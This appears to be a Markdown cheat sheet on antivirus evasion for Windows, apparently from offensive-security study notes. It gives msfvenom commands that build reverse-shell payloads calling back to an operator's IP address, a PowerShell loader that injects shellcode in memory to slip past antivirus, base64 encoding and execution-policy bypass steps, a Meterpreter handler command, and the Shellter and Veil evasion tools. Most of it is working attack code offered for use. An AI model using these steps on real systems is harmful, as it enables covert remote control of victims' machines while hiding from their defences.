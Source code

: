 # AV Evasion in Practice

## Windows PE Analysing

* Use msfvenom Reverse Shell
* VirusTotal Upload `https://www.virustotal.com/gui/home/upload`
* Antiscan Me `https://antiscan.me` (4 Uploads/ Day)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
```

## UPX

* Packer for executeables
* ` https://upx.github.io/`

```bash
sudo apt install upx-ucl
```

## Obfuscator

* EnigmaProtector
* Comercial Tool `https://www.enigmaprotector.com/en/home.html`

## Powershell AV ByPass Techiques

* **Limitation**: Powershell x86
* Use Powershell x86 Template Script
* Implant Reverse-Shell with In-Memory-Injection (VirtualAlloc, memset, CreateThread)
  * Use Msfvenom to create a reverse shell -f powershell
  * Add Shellcode `<place your shellcode here>`
  * Modify $var to obfuscate the malicous code
* Make Powershell Onliner `https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py`
* Set `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`
* Run Powerhell Script to spawn Reverse Shell without AV Evasion 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f powershell
```

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$windoof = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$shellcode = #<place your shellcode here>; 

$size = 0x1000;

if ($shellcode.Length -gt 0x1000) {$size = $shellcode.Length};

$x = $windoof::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($shellcode.Length-1);$i++) {$windoof::memset([IntPtr]($x.ToInt32()+$i), $shellcode[$i], 1)};

$windoof::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

```bash
python3 tools/py-encode.py --script tools/av-bypass-resershell.ps1
JABjAG8AZABlACAAPQAgACcACgBbAEQAbABsAEkAbQBwAG8...
```

```powershell
# Run ps1
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
./av-bypass-resershell.ps1
# Alternative base64 encode ps1
powershell -enc  JABjAG8AZABlACAAPQAgACcACgBbAEQAbABsAEkAbQBwAG8...
```

## Automate AV Evasion with Shellter x86

* **Limitation**: Require x86, 32bit windows only
* Windows Tool Download `https://www.shellterproject.com/download/
* Use Meterpreter Reverse Shell Handler


```bash
# Kali
sudo apt install shellter
```

```bash
# Meterpreter 
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
meterpreter > shell
```

## Automate AV Evasion with Veil Framework

* **Limitation**: Require x86

```bash
$ vail -t Evasion -p go/meterpreter/rev_tcp.py --ip 127.0.0.1 --port 4444
```